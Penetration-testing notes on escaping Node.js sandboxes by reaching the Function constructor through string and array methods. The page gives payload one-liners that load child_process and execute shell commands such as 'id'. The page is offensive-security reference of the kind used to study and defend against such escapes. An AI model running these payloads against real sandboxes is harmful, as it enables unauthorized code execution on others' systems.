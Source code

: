 # more languages and technologies will be addes soon 

## nodejs sandbox bypass 101

this payloads or techniques not necessarily to work on real targets , it just explainging how to do it 

### constructor function 
A constructor function in JavaScript is a special type of function that is used to create and initialize objects , so we can use it to create functions since functions are objects in javascript


### the idea of bypass is to access the constructor property of a function to create your evil functions bypassing restricted rules which is set in the sandbox , so  create object access function or any property which reffer to a function then access its constructor property which refers to the constructor function (note `"".constructor()` is a function )

![Screenshot_20230808_161658](https://github.com/kiro6/penetration-testing-notes/assets/57776872/bef0f085-20c3-428f-810e-5271d67d4de2)

  
- examples 
```js

# ''.split.constructor()() === ''["split"]["constructor"]("console.log(1)")()

[].push.constructor("console.log(1)")()

"".split.constructor("console.log(1)")()

"".constructor.constructor("console.log(1)")()

''["sub"]["constructor"]('console.log(1)')()

Number(1).constructor.constructor("console.log(1)")()

```

### we have another technique to understand it i recommend reading [this](http://kangax.github.io/nfe/)

```js

(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('console.log(1)')()

(function(prop) { return ''[prop ? "constructor":"benign"  ][prop] })("constructor")("console.log(1)")()

(function({anything}){return anything.constructor})({anything:"".split})("console.log(1)")()

```

### ofcourse we can do more than just console , here is how to import modules inside the evil functions you create

```
process.mainModule.require("child_process").execSync("id")

global.process.mainModule.constructor._load("child_process").execSync("id")
```

### final examples 

```
(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


"".sub.constructor('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


(function({book}){return book.constructor})({book:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()

```

#### sources 
- (https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html)
- (https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)
